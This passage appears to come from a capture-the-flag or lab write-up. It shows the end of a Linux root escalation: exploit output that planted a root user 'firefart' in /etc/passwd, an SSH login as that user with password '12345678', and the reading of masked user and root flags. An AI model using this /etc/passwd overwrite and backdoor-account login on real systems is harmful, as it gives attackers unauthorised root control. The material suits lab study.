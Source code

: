 ```bash

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

## login via `ssh` with new `root` user (`firefart:12345678`)
```bash
$ ssh firefart@192.168.150.87                                                                                          
The authenticity of host '192.168.150.87 (192.168.150.87)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.150.87' (ECDSA) to the list of known hosts.
firefart@192.168.150.87's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

firefart@ubuntu:~# whoami
firefart
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
```

> Yay! We got `root` access.
{: .prompt-info }

---

# get flags
## `user` flag
```bash
firefart@ubuntu:~# cd /usr/lib/cgi-bin
firefart@ubuntu:~# ls
local.txt
test
test.sh
firefart@ubuntu:~# cat local.txt
5******************************3
```

## `root` flag
```bash
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:~# cd /root
firefart@ubuntu:~# ls
proof.txt  root.txt
firefart@ubuntu:~# cat proof.txt
9******************************1
```
Pwned! <@:-) 
